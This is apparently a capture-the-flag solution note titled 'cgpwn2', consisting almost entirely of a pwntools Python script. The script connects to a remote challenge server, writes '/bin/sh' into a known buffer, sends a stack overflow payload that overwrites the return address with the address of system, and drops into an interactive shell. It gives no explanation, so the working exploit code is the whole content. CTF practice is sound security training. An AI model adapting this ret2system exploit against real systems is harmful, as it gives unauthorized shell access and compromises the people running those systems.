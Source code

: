 # cgpwn2
```python
from pwn import*
p=remote('111.198.29.45','43090')

naddr=0x804a080
sysaddr=0x8048420

pay='a'*(0x26+4)+p32(sysaddr)+'a'*4+p32(naddr)

p.recv()
p.sendline('/bin/sh\x00')

p.recv()
p.sendline(pay)

p.interactive()
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE2NDk4NDc4NTldfQ==
-->